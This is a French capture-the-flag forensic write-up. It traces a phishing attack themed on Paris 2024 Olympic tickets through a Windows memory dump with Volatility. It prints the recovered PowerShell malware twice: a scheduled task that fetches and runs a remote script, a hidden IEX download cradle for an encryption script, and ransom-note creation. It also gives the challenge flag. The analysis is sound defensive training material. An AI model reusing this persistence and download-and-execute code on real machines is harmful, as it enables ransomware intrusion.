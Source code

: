 # Enquête sur le phishing des JO : Retracer l'attaque

* type: Forensic
* points : 500
* auteur : [Clara Chalumeau aka Clar'hacker](https://www.linkedin.com/in/clara-chalumeau/) 

---


## Partie 1/2

### Synopsis

Mike O'Soft a été averti d'une campagne de phishing par le groupe THE HAMOR. Une des personnes ayant reçu le mail de phishing en question, s'est faite piegée.

Vous avez pour mission de mener l'enquête. Heureusement pour vous, les équipes du ministère ont réalisé un dump mémoire sur la machine. Dans la suite de votre enquête, un dump réseau vous sera confié.

Sauriez-vous retracer ce qu'il s'est passé sur ce poste ?

Pour résoudre ce challenge, vous devez répondre aux questions suivantes :

1 - Quel est le nom du raccourci malveillant ?

2 - Quel est le nom de la scheduled task créé ?

3 - Quel script est lancé par cette scheduled task ?

Format du flag SHLK{'nom-fichier'-'scheduled task-'script'}

Exemple 1 - File : ctf\shutlock.test

2 - scheduled task : ScheduleTaskName

3 - script : ThisIsTheScript.sh

SHLK{shutlock.test-ScheduleTaskName-ThisIsTheScript.sh}

### First encounter

Un dump, une capture du bureau, et c'est à nous de jouer. Le système a été compromis, à nous de décrouvrir comment.

L'examen rapide de la capture d'écran donne quelques informations qui nous seront certainement utile plus tard

![capture d'écran](./1_RESOLU/Ordi.png)

Cela va tourner autour d'un PDF malveillant, et nous avons la note de rançon, avec ces informations, il est temps de commencer à creuser.

### Méthode 1 full volatility (aka quand on est pas un SoC Analyst, mais que l'on a des idées)

Une des façon de trouver le 1er flag, est de commencer par bien lire ce qui nous est demandé, nous allons donc commencer par rechercher le raccourci malveillant. On sait que sous windows, l'extension sera en .lnk, et grace au screen, on sait que ça sera lié à un PDF. 

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE "*\.pdf\.lnk"
```

La réponse arrive en quelques minutes:

```
0xa70451a45a80.0\Users\clara\Downloads\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024\Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk        216
```
Nous avons notre première information. La seconde est un peu plus tricky, mais pas si compliquée à trouver.

Le poste a été chiffré, nous allons donc chercher un script powershell malveillant. Pour cela, nous allons pouvoir nous nous appuyer sur les fichiers EVTX (journaux système Windows) dans notre tâche.

Pour cela, nous allons devoir extraire le fichier qui nous intéresse, nous allons utiliser de nouveau notre ami volatiliy et une petite regex pour trouver ce dont nous avons besoin.

```shell
vol -f 1_RESOLU/dump.raw windows.file | grep -iE ".*powershell.*\.evtx"
```

Le retour arrive rapidement:

```shell
0xa704519a3db0  \Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx    216
```

Une fois la cible trouvée, nous allons devoir l'extraire de la mémoire

```shell
vol -f 1_RESOLU/dump.raw windows.dump --virtaddr 0xa704519a3db0

Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
Cache   FileObject      FileName        Result

DataSectionObject       0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044ea12090.DataSectionObject.Microsoft-Windows-PowerShell%4Operational.evtx.dat
SharedCacheMap  0xa704519a3db0  Microsoft-Windows-PowerShell%4Operational.evtx  file.0xa704519a3db0.0xa7044e4f5260.SharedCacheMap.Microsoft-Windows-PowerShell%4Operational.evtx.vacb
```
L'information dont nous avons besoin se situe dans le fichier qui se termine par vacb, un petit passage par extx_dump pour rendre le fichier lisible, et nous trouvons le script.
```json
{
  "Event": {
    "#attributes": {
      "xmlns": "http://schemas.microsoft.com/win/2004/08/events/event"
    },
    "EventData": {
      "MessageNumber": 1,
      "MessageTotal": 1,
      "Path": "",
      "ScriptBlockId": "07925adc-3e1c-4463-a0cc-9d12522ebede",
      "ScriptBlockText": "$IP_addr = '172.21.195.17:5000'\r\n\r\n$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"\r\n$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"\r\n$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'\r\n$TaskFile = 'GetFilesInfo.ps1'\r\n\r\n#Get the lure pdf\r\nInvoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer\r\n\r\n# Open the PDF file with the default PDF viewer\r\nStart-Process -FilePath $fakePlaceOffer\r\n\r\n### Schedule task\r\n$taskName = \"IGotYourFileInfo\"\r\n\r\n# Create the scheduled task that get some file information\r\n$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"\r\nschtasks /create /tn $taskName /sc HOURLY /tr $cmd\r\n\r\n#Encrypt some file\r\n\r\npowershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"\r\n\r\n## Change wallpaper\r\n$webClient = New-Object System.Net.WebClient\r\n$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"\r\n$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"\r\n$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)\r\n\r\n## Set the wallpaper\r\n$regKey = \"HKCU:\\Control Panel\\Desktop\"\r\nSet-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath\r\n$wallpaperStyle = \"3\"\r\nSet-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle\r\n$tileWallpaper = \"0\"\r\nSet-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper\r\n\r\n# Forcer l'actualisation du bureau\r\nStart-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait\r\n\r\n## Create text file\r\n$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"\r\nSet-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent\r\n# Open text file\r\nInvoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"\r\n\r\n"
    },
    "System": {
      "Channel": "Microsoft-Windows-PowerShell/Operational",
      "Computer": "DeanGilmor",
      "Correlation": {
        "#attributes": {
          "ActivityID": "3476582E-B7DF-0003-AC7D-7634DFB7DA01"
        }
      },
      "EventID": 4104,
      "EventRecordID": 133,
      "Execution": {
        "#attributes": {
          "ProcessID": 13428,
          "ThreadID": 2576
        }
      },
      "Keywords": "0x0",
      "Level": 3,
      "Opcode": 15,
      "Provider": {
        "#attributes": {
          "Guid": "A0C1853B-5C40-4B15-8766-3CF1C58F985A",
          "Name": "Microsoft-Windows-PowerShell"
        }
      },
      "Security": {
        "#attributes": {
          "UserID": "S-1-5-21-1569816960-1500504362-1823058107-1000"
        }
      },
      "Task": 2,
      "TimeCreated": {
        "#attributes": {
          "SystemTime": "2024-06-07T19:29:08.462113Z"
        }
      },
      "Version": 1
    }
  }
}
```

Le responsable est donc:

```powershell
ScriptBlockText": "$IP_addr = '172.21.195.17:5000'

$urlFakeJob = \"http://$IP_addr/Holmes/Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf\"
$urlTask = \"http://$IP_addr/Holmes/GetFileInfo.ps1\"
$fakePlaceOffer = 'Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf'
$TaskFile = 'GetFilesInfo.ps1'

#Get the lure pdf
Invoke-WebRequest -Uri $urlFakeJob -OutFile $fakePlaceOffer

# Open the PDF file with the default PDF viewer
Start-Process -FilePath $fakePlaceOffer

### Schedule task
$taskName = \"IGotYourFileInfo\"

# Create the scheduled task that get some file information
$cmd = \"Invoke-WebRequest -Uri $urlTask -OutFile $TaskFile ; Start-Process -FilePath $TaskFile\"
schtasks /create /tn $taskName /sc HOURLY /tr $cmd

#Encrypt some file

powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile  -c \"& {IEX ((New-Object Net.WebClient).DownloadString('http://$IP_addr/Holmes/Encrypt.ps1'))}\"

## Change wallpaper
$webClient = New-Object System.Net.WebClient
$wallpaperUrl = \"http://$IP_addr/Holmes/wallpaper.jpg\"
$wallpaperPath = \"$env:USERPROFILE\\Desktop\\wallpaper.jpg\"
$webClient.DownloadFile($wallpaperUrl, $wallpaperPath)

## Set the wallpaper
$regKey = \"HKCU:\\Control Panel\\Desktop\"
Set-ItemProperty -Path $regKey -Name Wallpaper -Value $wallpaperPath
$wallpaperStyle = \"3\"
Set-ItemProperty -Path $regKey -Name WallpaperStyle -Value $wallpaperStyle
$tileWallpaper = \"0\"
Set-ItemProperty -Path $regKey -Name TileWallpaper -Value $tileWallpaper

# Forcer l'actualisation du bureau
Start-Process -FilePath \"RUNDLL32.EXE\" -ArgumentList \"USER32.DLL,UpdatePerUserSystemParameters ,1 ,True\" -Wait

## Create text file
$fileContent = \"YOU HAVE BEEN INFECTED BY THE HAMOR FIND THE KEY TO RETREIVE YOUR FILE\"
Set-Content \"$env:USERPROFILE\\Desktop\\instructions.txt\" -Value $fileContent
# Open text file
Invoke-Item \"$env:USERPROFILE\\Desktop\\instructions.txt\"
```

Voilà, nous avons désormais la totalité des informations pour créer le flag

```
SHLK{Tirage_au_sort_pour_gagner_des_places_aux_Jeux_Olympiques_de_Paris_2024.pdf.lnk-IGotYourFileInfo-GetFilesInfo.ps1}
```

